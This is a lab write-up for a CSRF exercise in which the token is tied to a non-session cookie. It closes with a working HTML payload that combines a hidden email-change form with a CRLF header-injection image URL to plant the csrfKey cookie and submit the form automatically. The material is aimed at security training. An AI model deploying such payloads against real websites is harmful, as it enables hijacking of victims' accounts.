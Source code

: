# CSRF where token is tied to non-session cookie
# Objective
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:\
- `wiener:peter`
- `carlos:montoya`

# Solution
## Analysis

|![](Images/image-12.png)|
|:--:| 
| *Test of change email functionality (user wiener) - csrf token and csrfKey is preset* |

Both users have the same `csrf` token and `csrfKey` cookie. These security measures are not tied to user sessions.

|![](Images/image-13.png)|
|:--:| 
| *Original change email request from  wiener* |
|![](Images/image-14.png)|
| *Original change email request from  carlos* |

Moreover, latest search is stored as cookie value in user browser - search term is reflected in the Set-Cookie header.

|![](Images/image-24.png)|
|:--:| 
| *Cookie - Latest search term |

## Exploitation
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
  - Create a URL to inject your `csrfKey` cookie into the victim's browser
  - Craft POST request to `/my-account/change-email` with valid `csrf` token and valid `csrfKey` cookie
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

URL encoded characters `%0d%0a` are `\r\n` (carriage return and line feed). They are used to seperate headers in HTTP/1.1 requests.

```html
<form method="POST" action="URL/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="VALID_CSRF">
</form>

<img src="URL/?search=test%0d%0aSet-Cookie:%20csrfKey=VALID_CSRF_KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

|![](Images/image-16.png)|
|:--:| 
| *URL decoded payload* |
|![](Images/image-15.png)|
| *Exploit server configuration* |